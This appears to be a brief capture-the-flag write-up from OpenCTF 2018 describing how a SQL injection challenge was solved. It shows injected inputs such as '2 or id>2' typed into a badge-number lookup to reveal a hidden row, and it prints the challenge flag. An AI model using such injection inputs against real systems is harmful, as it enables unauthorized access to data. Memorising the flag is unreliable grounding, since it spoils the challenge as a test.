 ```yaml
---
layout: post
title: "SQL-10 : SQL 10"
author: Fl0rbu5
date: 2018-08-12 13:37:59 -0700
slug: sql-10
category:
- 2018
- openctf
---
```

**Category:** SQL

**Points:** 10

**Description:** N/A

# URL
https://sql-mayham.openctf.com/ziopxuoiwquyerhnszpasdyvzlkxcjlwerqwer/sql-10/

# Flag
`Th@tW@53@5yHuh`

When 1 is entered it returns the following row

```
    Enter a badge number to view that officers file:1
    (1, 'bob', 'simmons', 'none')

```
Performing a basic sql injection we got the same row back but no error. The server only returns 1 row

```
Enter a badge number to view that officers file:1 or 1=1
(1, 'bob', 'simmons', 'none')


```
Entering an ID of 2 no results are found.
```
Enter a badge number to view that officers file:2 
None
```
 Using the sql injection an OR was added to say "id>2"
```
Enter a badge number to view that officers file:2 or id>2
(152135123451, 'flag', 'flag', 'Th@tW@53@5yHuh')
```
This returns the flag in the one other row in the database
```
'Th@tW@53@5yHuh'
